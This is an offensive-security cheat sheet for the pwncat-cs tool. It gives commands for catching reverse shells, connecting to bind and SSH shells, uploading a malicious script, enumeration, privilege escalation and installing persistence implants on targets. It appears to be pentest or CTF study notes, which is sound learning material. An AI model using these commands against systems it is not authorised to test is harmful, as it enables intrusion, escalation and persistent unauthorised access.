 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pwncat

## Basic Usage

```bash
# general syntax
[protocol://][user[:password]]@[host:][port][?arg1=value&arg2=value]
```

Catching a revershe shell.

```bash
# catching reverse shell (set up listener)
pwncat-cs bind://0.0.0.0:<port>
# nc syntax
pwncat-cs -lp <port>
# encrypting traffic
pwncat-cs ssl-bind://0.0.0.0:<port>
```

Connecting to a bind shell.

```bash
# connecting to a bind shell
pwncat-cs connect://<ip:port>
# nc syntax
pwncat-cs <ip>:<port>
# encrypting traffic
pwncat-cs ssl-connect://<ip>:<port>
```

Connecting to a remote SSH server.

```bash
# via ssh
pwncat-cs "ssh://<user>:<pass>@<ip>
# ssh syntax
pwncat-cs <user>@<ip>
# key auth
pwncat-cs -i ./id_rsa <user>@<ip>
```

Connect to a Windows target.

```bash
# Full connection string
pwncat-cs -m windows connect://192.168.1.1:4444
# nc syntax
pwncat-cs -m windows 192.168.1.1 4444
```

Switch between `local` and `remote` modes.

```bash
# CTRL+D
(local) pwncat$
# CTRL+D
(remote) www-data@p-web-02.acme-infinity-servers.com:/var/www/html$
# CTRL+D
(local) pwncat$
```

File transfers.

```bash
# download a file
download /etc/hosts ./victim-hosts
# upload a file
upload ./malicious.sh /tmp/definitely-not-malicious
```

## Enumeration

From `local` mode.

<pre class="language-bash"><code class="lang-bash"><strong># search enumeration modules
</strong><strong>(local) pwncat$ search enumerate*
</strong># use all enumeration modules
(local) pwncat$ run enumerate
# generate a markdown report
(local) pwncat$ run report output=report.md
</code></pre>

## EoP

```bash
# list escalation paths for any user
(local) pwncat$ escalate list
# list escalation paths to the specified user
(local) pwncat$ escalate list -u <user>
# escalate to root
(local) pwncat$ escalate run
# escalate to the specified user
(local) pwncat$ escalate run -u <user>
```

## Persistence

{% code overflow="wrap" %}
```bash
# list implant methods
(local) pwncat$ search implant*
# list installed implants
(local) pwncat$ run implant list
# escalate using an installed implant
(local) pwncat$ run implant escalate
# remove implant
(local) pwncat$ run implant remove
# list all installed remote implants
pwncat-cs --list
# reconnect using the implanet ID
pwncat-cs <implant-id>
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="GitHub" %}
{% embed url="https://github.com/calebstewart/pwncat" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://pwncat.readthedocs.io/en/latest/" %}
{% endtab %}

{% tab title="Talk" %}
{% embed url="https://www.youtube.com/watch?v=CISzI9klRkw" %}
{% endtab %}
{% endtabs %}
